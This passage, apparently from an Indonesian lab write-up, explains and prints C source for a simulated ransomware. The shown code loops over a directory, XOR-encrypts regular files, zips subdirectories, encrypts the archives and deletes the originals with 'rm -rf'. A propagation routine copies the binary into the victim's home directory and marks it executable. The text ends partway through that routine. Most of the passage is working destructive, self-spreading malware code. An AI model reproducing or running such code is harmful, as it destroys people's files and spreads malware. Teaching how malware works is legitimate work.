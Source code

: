 ```c
int wannacryptor() {
    while (1) {
        DIR *dir = opendir(".");
        if (!dir) return 1;

        time_t timestamp = time(NULL);
        struct dirent *entry;

        while ((entry = readdir(dir)) != NULL) {
            if (entry->d_name[0] == '.' || entry->d_name == "runme") continue;
            if (entry->d_type == DT_REG) xor_file(entry->d_name, timestamp);
            if (entry->d_type == DT_DIR) {
                char zipname[PATH_MAX];
                snprintf(zipname, sizeof(zipname), "%s.zip", entry->d_name);

                char *zip_args[] = {"zip", "-qr", zipname, entry->d_name, NULL};
                run_command("/bin/zip", zip_args);

                xor_file(zipname, timestamp);

                char *rm_args[] = {"rm", "-rf", entry->d_name, NULL};
                run_command("/bin/rm", rm_args);
            }
        }

        closedir(dir);
        sleep(30);
    }
    return 0;
}
```

Point **c - d**

Untuk poin c adalah melakukan simulasi _propagation_ malware, dimana melakukan self clone binarynya sendiri untuk disebarkan diarea home directory korban.

Pertama membuat function `cloneFile` tentu saja ini digunakan untuk melakukan clone sebuah file ke target directorynya, secara recursive hingga ke dalam.

```c
int cloneFile(char *baseDirpath, char *filename, FILE *file) {
    DIR *dir = opendir(baseDirpath);
    char path[PATH_MAX];

    if (!dir) return 1;

    snprintf(path, sizeof(path), "%s/%s", baseDirpath, filename);
    FILE *dest = fopen(path, "wb");
    if (!file || !dest) {
        closedir(dir);
        return 1;
    }
    char buffer[1024];
    size_t bytes;
    while ((bytes = fread(buffer, 1, sizeof(buffer), file)) > 0) {
        fwrite(buffer, 1, bytes, dest);
    }
    fclose(dest);
    chmod(path, S_IRUSR | S_IWUSR | S_IXUSR | S_IRGRP | S_IXGRP | S_IROTH | S_IXOTH);

    struct dirent *entry;
    char newpath[PATH_MAX];
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
```